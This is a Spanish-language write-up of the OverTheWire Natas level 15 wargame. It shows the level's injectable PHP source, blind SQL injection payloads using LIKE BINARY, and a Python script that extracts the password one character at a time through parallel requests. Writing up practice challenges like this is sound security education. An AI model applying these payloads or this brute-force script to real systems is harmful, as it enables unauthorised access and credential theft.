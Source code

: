 Este nivel consiste en un buscador de usuarios. El código nos da en un comentario una pista sobre los campos de la tabla `users`:

```php
<?php  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {    $link = mysqli_connect('localhost', 'natas15', '<censored>');    mysqli_select_db($link, 'natas15');    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }    $res = mysqli_query($link, $query);  
    if($res) {  
    if(mysqli_num_rows($res) > 0) {  
        echo "This user exists.<br>";  
    } else {  
        echo "This user doesn't exist.<br>";  
    }  
    } else {  
        echo "Error in query.<br>";  
    }    mysqli_close($link);  
} else {  
?>
```

Resulta lógico buscar al usuario con la sintaxis usual de estos niveles: `natas16`, ya que verificamos que este existe, pasamos a escribir nuestro *query*. Aquí debemos agregar el campo `password`, en contraste con el nivel anterior:

```
username = natas16 " and password LIKE "a%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE "a%"
```

En un primer acercamiento, seleccionamos las contraseñas que comiencen con `a` usando la instrucción `LIKE`, donde el carácter de porcentaje `%` sirve de comodín. Probando distintos caracteres, hasta encontrar un "usuario existente", veremos que el primer carácter de la contraseña es `h` y podremos continuar este método hasta completar la contraseña:

```
username = natas16 " and password LIKE "ha%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE "ha%"
```

Sin embargo, hay un par de problemas con este método:
1. La contraseña no es corta y realizarlo manualmente se vuelve tedioso rápidamente, debemos hacer un script.
2. Si probamos la letra `H`, la consulta también será exitosa, esto se debe a que la búsqueda no distingue entre mayúsculas y minúsculas, es *case insensitive*. Para modificar este comportamiento debemos agregar la función `BINARY`, que convierte la cadena a binario antes de pasar a la función `LIKE`.

```
username = natas16 " and password LIKE BINARY "a%"
```

```sql
 SELECT * from users where username="natas16" and password LIKE BINARY "a%"
```

El script puede ser implementado de infinitas formas, para [esta solución](https://github.com/IberoGIC/gic-level-2/blob/main/Challenges/OTW_Natas/Lvl_15/Ordenmoria/script.py) se usa python.

Construimos una lista que contiene todos los caracteres posibles para la contraseña (mayúsculas, minúsculas y números).
```python
alphanumeric = string.ascii_letters + string.digits
```

Definimos una función para enviar una petición a la página web, especificando el valor del campo `username` en el formulario y los datos de la autenticación del nivel: `username` y `password`.

```python
def send_request(current_password, char):
    try:
        form_data = {'username': 'natas16" and password LIKE BINARY "' + current_password + char + '%'}
        response = requests.post(url, data=form_data, auth=HTTPBasicAuth(username, password))
        if "This user exists." in response.text:
            return True, char
        else:
            return False, char

    except requests.exceptions.RequestException as e:
        return False, None
```

Enviamos una petición por cada carácter, en procesos paralelos, y agregamos el carácter con respuesta exitosa a la contraseña.

```python
def perform_parallel_requests(current_password):  
    # Create a ThreadPoolExecutor to handle multiple requests in parallel  
    with ThreadPoolExecutor(max_workers= len(alphanumeric)) as executor:  
        # Submit request for each character  
        futures = [executor.submit(send_request, current_password, char) for char in alphanumeric]  
  
        # Wait for all futures to complete and collect results  
        for future in futures:  
            user_exists, char = future.result()  
            if user_exists:  
                    return current_password + char  
        return current_password
```

Repetimos las peticiones paralelas hasta que no se agregue un nuevo carácter a la contraseña .

```python
while current_password != last_password:  
    last_password = current_password  
    current_password = perform_parallel_requests(current_password)  
    print(current_password)
```


---
## **Conclusión**

Este nivel demuestra cómo una inyección SQL sencilla puede ser explotada para realizar un ataque de fuerza bruta optimizado y subraya la necesidad de implementar prácticas seguras en el manejo de entradas de usuario.

---
-,"  
[_P
